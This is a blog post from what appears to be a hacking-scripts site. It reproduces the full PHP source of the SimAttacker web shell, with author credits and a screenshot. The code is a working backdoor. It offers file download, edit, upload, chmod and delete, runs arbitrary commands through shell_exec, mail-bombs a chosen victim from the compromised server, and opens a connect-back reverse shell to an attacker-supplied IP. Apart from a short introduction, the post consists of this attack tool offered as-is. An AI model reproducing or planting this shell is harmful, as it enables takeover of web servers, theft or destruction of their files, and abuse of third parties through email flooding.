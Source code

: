 ```yaml
---
id: 279
title: SimAttacker Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=279
permalink: /simattacker-shell/
categories:
  - PHP
tags:
  - PHP
---
```

I previously called this &#8216;best friends shell&#8217;. I now know that it&#8217;s called the SimAttacker shell.

Coded by Hossein Asgary, an Iranian hacker who is part of Simorgh Security Group.


### SimAttacker Shell Source Code

{% highlight php linenos %}<?
//download Files  Code
$fdownload=$_GET['fdownload'];
if ($fdownload <> "" ){
// path & file name
$path_parts = pathinfo("$fdownload");
$entrypath=$path_parts["basename"];
$name = "$fdownload";
$fp = fopen($name, 'rb');
header("Content-Disposition: attachment; filename=$entrypath");
header("Content-Length: " . filesize($name));
fpassthru($fp);
exit;
}
?>
    
<html>

<head>
<meta http-equiv="Content-Language" content="en-us">
<meta http-equiv="Content-Type" content="text/html; charset=windows-1252">
<title>SimAttacker - Vrsion : 1.0.0 - priv8 4 My friend </title>
<style>
<!--
body         { font-family: Tahoma; font-size: 8pt }
-->
</style>
</head>
<body>
<?
error_reporting(E_ERROR | E_WARNING | E_PARSE);

 //File Edit
 $fedit=$_GET['fedit'];
 if ($fedit <> "" ){
 $fedit=realpath($fedit);
 $lines = file($fedit);
 echo "<form action='' method='POST'>";
echo "<textarea name='savefile' rows=30 cols=80>" ;
foreach ($lines as $line_num => $line) {
 echo htmlspecialchars($line);
}
echo "</textarea>
    <input type='text' name='filepath'  size='60' value='$fedit'>
    <input type='submit' value='save'></form>";
    $savefile=$_POST['savefile'];
    $filepath=realpath($_POST['filepath']);
    if ($savefile <> "") 
    {
    $fp=fopen("$filepath","w+");
    fwrite ($fp,"") ;
    fwrite ($fp,$savefile) ;
    fclose($fp);
    echo "<script language='javascript'> close()</script>";
    }
exit();
 }
?>
<?
// CHmod - PRimission
$fchmod=$_GET['fchmod'];
if ($fchmod <> "" ){
$fchmod=realpath($fchmod);
echo "<center><br>
chmod for :$fchmod<br>
<form method='POST' action=''><br>
Chmod :<br>
<input type='text' name='chmod0' ><br>
<input type='submit' value='change chmod'>
</form>";
$chmod0=$_POST['chmod0'];
if ($chmod0 <> ""){
chmod ($fchmod , $chmod0);
}else {
echo "primission Not Allow change Chmod";
}
exit();
}
?>
    
<div align="center">
    <table border="1" width="100%" id="table1" style="border: 1px dotted #FFCC99" cellspacing="0" cellpadding="0" height="502">
        <tr>
            <td style="border: 1px dotted #FFCC66" valign="top" rowspan="2">
                <p align="center"><b>
                <font face="Tahoma" size="2"><br>
                </font>
                <font color="#D2D200" face="Tahoma" size="2">
                <span style="text-decoration: none">
                <font color="#000000">
                <a href="?id=fm&dir=<?
    echo getcwd();
    ?>
    ">
                <span style="text-decoration: none"><font color="#000000">File Manager</font></span></a></font></span></font></b></p>
                <p align="center"><b><a href="?id=cmd">
                <span style="text-decoration: none">
                <font face="Tahoma" size="2" color="#000000">
                CMD</font></span></a><font face="Tahoma" size="2"> Shell</font></b></p>
                <p align="center"><b><a href="?id=fake-mail">
                <font face="Tahoma" size="2" color="#000000">
                <span style="text-decoration: none">Fake mail</span></font></a></b></p>
                <p align="center"><b>
                <font face="Tahoma" size="2" color="#000000">
                <a href="?id=cshell">
                <span style="text-decoration: none"><font color="#000000">Connect Back</font></span></a></font></b></p>
                <p align="center"><b>
                <font color="#000000" face="Tahoma" size="2">
                <a href="?id=">
                <span style="text-decoration: none"><font color="#000000">About</font></span></a></font></b></p>
                <p>&nbsp;<p align="center">&nbsp;</td>
            <td height="422" width="82%" style="border: 1px dotted #FFCC66" align="center">
            <?
            //*******************************************************
            //Start Programs About US
            $id=$_GET['id'];

            if ($id=="") {
            echo "
            <font face='Arial Black' color='#808080' size='1'>
***************************************************************************<br>
&nbsp;Iranian Hackers : WWW.SIMORGH-EV.COM <br>
&nbsp;Programer : Hossein Asgary <br>
&nbsp;Note : SimAttacker&nbsp; Have copyright from simorgh security Group  <br>
&nbsp;please : If you find bug or problems in program , tell me by : <br>
&nbsp;e-mail : admin(at)simorgh-ev(dot)com<br>
Enjoy <img src="{{ site.baseurl }}/wp-includes/images/smilies/icon_smile.gif" alt=":)" class="wp-smiley" /> [Only 4 Best Friends ] <br>
***************************************************************************</font></span></p>
";

echo "<font color='#333333' size='2'>OS :". php_uname();
echo "<br>IP :". 
($_SERVER['REMOTE_ADDR']);
echo "</font>";


            }
            //************************************************************
            //cmd-command line
            $cmd=$_POST['cmd'];
            if($id=="cmd"){
        $result=shell_exec("$cmd");
        echo "<br><center><h3> CMD ExeCute </h3></center>" ;
        echo "<center>
        <textarea rows=20 cols=70 >$result</textarea><br>
        <form method='POST' action=''>
        <input type='hidden' name='id' value='cmd'>
        <input type='text' size='80' name='cmd' value='$cmd'>
        <input type='submit' value='cmd'><br>";
            
            
            
            }
            
        //********************************************************    
        
        //fake mail = Use victim server 4 DOS - fake mail 
        if ( $id=="fake-mail"){
        error_reporting(0);
        echo "<br><center><h3> Fake Mail- DOS E-mail By Victim Server </h3></center>" ;
        echo "<center><form method='post' action=''>
        Victim Mail :<br><input type='text' name='to' ><br>
        Number-Mail :<br><input type='text' size='5' name='nom' value='100'><br>
        Comments:
        <br>
        <textarea rows='10' cols=50 name='Comments' ></textarea><br>
        <input type='submit' value='Send Mail Strm ' >
        </form></center>";
        //send Storm Mail
        $to=$_POST['to'];
        $nom=$_POST['nom'];
        $Comments=$_POST['Comments'];
        if ($to <> "" ){
        for ($i = 0; $i < $nom ; $i++){
        $from = rand (71,1020000000)."@"."Attacker.com";
        $subject= md5("$from");
        mail($to,$subject,$Comments,"From:$from");
        echo "$i is ok";
        }      
        echo "<script language='javascript'> alert('Sending Mail - please waite ...')</script>";
        }
        }
        //********************************************************

            //Connect Back -Firewall Bypass
            if ($id=="cshell"){
            echo "<br>Connect back Shell , bypass Firewalls<br>
            For user :<br>
            nc -l -p 1019 <br>
            <hr>
            <form method='POST' action=''><br>
            Your IP & BindPort:<br>
            <input type='text' name='mip' >
            <input type='text' name='bport' size='5' value='1019'><br>
            <input type='submit' value='Connect Back'>
            </form>";
         $mip=$_POST['mip'];
         $bport=$_POST['bport'];
         if ($mip <> "")
         {
         $fp=fsockopen($mip , $bport , $errno, $errstr);
         if (!$fp){
               $result = "Error: could not open socket connection";
         }
         else {
         fputs ($fp ,"\n*********************************************\nWelcome T0 SimAttacker 1.00  ready 2 USe\n*********************************************\n\n");
      while(!feof($fp)){ 
       fputs ($fp," bash # ");
       $result= fgets ($fp, 4096);
      $message=`$result`;
       fputs ($fp,"--> ".$message."\n");
      }
      fclose ($fp);
         }
         }
            }
            
        //********************************************************
            //Spy File Manager
            $homedir=getcwd();
            $dir=realpath($_GET['dir'])."/";
            if ($id=="fm"){
            echo "<br><b><p align='left'>&nbsp;Home:</b> $homedir 
                  &nbsp;<b>
                  <form action='' method='GET'>
                  &nbsp;Path:</b>
                  <input type='hidden' name='id' value='fm'>
                  <input type='text' name='dir' size='80' value='$dir'>
                  <input type='submit' value='dir'>
                  </form>
                 <br>";

            echo "

<div align='center'>

<table border='1' id='table1' style='border: 1px #333333' height='90' cellspacing='0' cellpadding='0'>
    <tr>
        <td width='300' height='30' align='left'><b><font size='2'>File / Folder Name</font></b></td>
        <td height='28' width='82' align='center'>
        <font color='#000080' size='2'><b>Size KByte</b></font></td>
        <td height='28' width='83' align='center'>
        <font color='#008000' size='2'><b>Download</b></font></td>
        <td height='28' width='66' align='center'>
        <font color='#FF9933' size='2'><b>Edit</b></font></td>
        <td height='28' width='75' align='center'>
        <font color='#999999' size='2'><b>Chmod</b></font></td>
        <td height='28' align='center'><font color='#FF0000' size='2'><b>Delete</b></font></td>
    </tr>";
            if (is_dir($dir)){
            if ($dh=opendir($dir)){
            while (($file = readdir($dh)) !== false) {
            $fsize=round(filesize($dir . $file)/1024);
        
            
    echo " 
    <tr>
        <th width='250' height='22' align='left' nowrap>";
        if (is_dir($dir.$file))
        {
        echo "<a href='?id=fm&dir=$dir$file'><span style='text-decoration: none'><font size='2' color='#666666'>&nbsp;$file <font color='#FF0000' size='1'>dir</font>";
        }
        else {
        echo "<font size='2' color='#666666'>&nbsp;$file ";
        }
        echo "</a></font></th>
        <td width='113' align='center' nowrap><font color='#000080' size='2'><b>";
        if (is_file($dir.$file))
        {
        echo "$fsize";
        }
        else {
        echo "&nbsp; ";
        }
        echo "
        </b></font></td>
        <td width='103' align='center' nowrap>";
        if (is_file($dir.$file)){
        if (is_readable($dir.$file)){
        echo "<a href='?id=fm&fdownload=$dir$file'><span style='text-decoration: none'><font size='2' color='#008000'>download";
        }else {
        echo "<font size='1' color='#FF0000'><b>No ReadAble</b>";
         }
        }else {
        echo "&nbsp;";
         }
        echo "
        </a></font></td>
        <td width='77' align='center' nowrap>";
        if (is_file($dir.$file))
        {
        if (is_readable($dir.$file)){
        echo "<a target='_blank' href='?id=fm&fedit=$dir$file'><span style='text-decoration: none'><font color='#FF9933' size='2'>Edit";
        }else {
        echo "<font size='1' color='#FF0000'><b>No ReadAble</b>";
         }
        }else {
        echo "&nbsp;";
         }
        echo "
        </a></font></td>
        <td width='86' align='center' nowrap>";
        if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
        echo "<font size='1' color='#999999'>Dont in windows";
        }
        else {
        echo "<a href='?id=fm&fchmod=$dir$file'><span style='text-decoration: none'><font size='2' color='#999999'>Chmod";
        }
        echo "</a></font></td>
        <td width='86'align='center' nowrap><a href='?id=fm&fdelete=$dir$file'><span style='text-decoration: none'><font size='2' color='#FF0000'>Delete</a></font></td>
    </tr>
    ";
              }
              closedir($dh);
            } 
            }
            echo "</table>
<form enctype='multipart/form-data' action='' method='POST'>
 <input type='hidden' name='MAX_FILE_SIZE' value='300000' />
 Send this file: <input name='userfile' type='file' />
 <inpt type='hidden' name='Fupath'  value='$dir'>
 <input type='submit' value='Send File' />
</form> 
            </div>";
            }
//Upload Files 
$rpath=$_GET['dir'];
if ($rpath <> "") {
$uploadfile = $rpath."/" . $_FILES['userfile']['name'];
print "<pre>";
if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile)) {
echo "<script language='javascript'> alert('\:D Successfully uploaded.!')</script>";
echo "<script language='javascript'> history.back(2)</script>";
}
 }
 //file deleted
$frpath=$_GET['fdelete'];
if ($frpath <> "") {
if (is_dir($frpath)){
$matches = glob($frpath . '/*.*');
if ( is_array ( $matches ) ) {
  foreach ( $matches as $filename) {
  unlink ($filename);
  rmdir("$frpath");
echo "<script language='javascript'> alert('Success! Please refresh')</script>";
echo "<script language='javascript'> history.back(1)</script>";
  }
  }
  }
  else{
echo "<script language='javascript'> alert('Success! Please refresh')</script>";
unlink ("$frpath");
echo "<script language='javascript'> history.back(1)</script>";
exit(0);

  }
  

}
            ?>
            
            </td>
        </tr>
        <tr>
            <td style="border: 1px dotted #FFCC66">
            <p align="center"><font color="#666666" size="1" face="Tahoma"><br>
            Copyright 2004-Simorgh Security<br>
            Hossein-Asgari<br>
            </font><font color="#c0c0c0" size="1" face="Tahoma">
        <a style="TEXT-DECORATION: none" href="http://www.simorgh-ev.com">
        <font color="#666666">www.simorgh-ev.com</font></a></font></td>
        </tr>
    </table>
</div>

</body>

</html>
{% endhighlight %}


### SimAttacker Shell screenshot<figure id="attachment_409" style="width: 604px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/best_friends_shell-1024x547.png" alt="SimAttacker script screenshot" width="604" height="322" class="size-large wp-image-409" />][1]<figcaption class="wp-caption-text">SimAttacker script screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/best_friends_shell.png